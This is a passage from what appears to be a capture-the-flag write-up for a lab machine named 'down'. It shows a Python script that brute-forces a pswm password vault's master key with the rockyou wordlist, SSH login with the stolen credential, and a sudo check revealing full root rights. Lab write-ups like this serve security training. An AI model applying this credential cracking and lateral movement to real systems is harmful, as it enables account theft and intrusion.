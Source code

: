 ## Loot: a local password vault (pswm)
Inside `~aleks/.local/share/pswm/` there’s a file named `pswm`. The system has `/usr/bin/pswm` installed; it’s a tiny Python-based password manager that uses the `cryptocode` library for symmetric encryption.

Rather than fight the full CLI (which errors under www-data due to XDG paths), we can replicate its decryption call and brute-force the master password with **rockyou.txt**.

### Quick-and-dirty offline cracker (local replica)
Minimal script logic (pseudocode style here for clarity):
```python
import cryptocode

pwsm_blob = open('pswm','r').read()
for pw in open('rockyou.txt', 'rb').read().decode(errors='ignore').splitlines():
    pt = cryptocode.decrypt(pwsm_blob, pw.strip())
    if pt:
        print('Master password:', pw)
        print(pt)
        break
```

In seconds it cracks the master key (a common dictionary word) and prints the decrypted table. One entry is an account for **aleks@down** with a strong-looking password. Use it to laterally move.

### User shell
```bash
❯ ssh aleks@$target
(aleks@10.129.217.203) Password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 System information as of Sat Oct 18 03:46:56 PM UTC 2025

  System load:           0.11
  Usage of /:            53.0% of 6.92GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             232
  Users logged in:       0
  IPv4 address for eth0: 10.129.217.203
  IPv6 address for eth0: dead:beef::250:56ff:feb0:2001
Last login: Sat Oct 18 15:46:57 2025 from 10.10.14.97
aleks@down:~$
```
We’re now **aleks**.

# Privilege Escalation

`sudo -l` for aleks is the jackpot:
```
User aleks may run the following commands on down:
    (ALL : ALL) ALL
```
